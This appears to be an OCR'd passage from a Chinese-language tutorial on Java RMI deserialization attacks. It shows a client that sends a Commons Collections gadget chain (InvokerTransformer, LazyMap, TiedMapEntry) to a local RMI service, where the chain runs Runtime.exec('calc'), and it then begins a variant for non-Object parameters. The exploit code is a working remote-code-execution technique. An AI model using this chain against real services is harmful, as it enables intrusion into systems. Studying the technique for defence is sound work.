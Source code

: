 ```java
public class Client {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.getRegistry("127.0.0.1", 9999);
        Hello stub = (Hello) r.lookup("hello");
        stub.sayHello(getPayload());
    }

    public static Object getPayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        lazyMap.remove("test");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return expMap;
    }
}
```

### 远程方法参数非Object

修改服务端接口

```java
public class HelloObject {
    @Override
    public String toString() {
        return "HelloObject{}";
    }
}
String sayGoodBye(HelloObject o) throws RemoteException;
```
